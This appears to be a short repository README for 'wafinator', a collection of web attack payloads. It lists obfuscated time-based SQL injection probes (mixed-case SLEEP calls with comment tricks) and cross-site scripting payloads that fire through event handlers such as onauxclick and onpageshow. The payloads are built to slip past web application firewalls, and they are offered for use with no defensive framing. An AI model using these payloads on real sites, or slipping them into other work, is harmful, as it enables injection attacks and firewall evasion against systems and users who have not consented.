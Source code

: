 # wafinator
Collection of payloads from everywhere. The maintainer is glad to *sec community for sharing their paylaods.


\-SleEp(0x2);\-\-<br><br>
\-slEEp("5A");\-\-<br><br>
\-SleEP/\*(\*/(5);\-\-<br><br>
J<d3v/onauxclick=[2].some(confirm)>O<br><br>
<b/src/onpageshow=(alert)()><br><br>
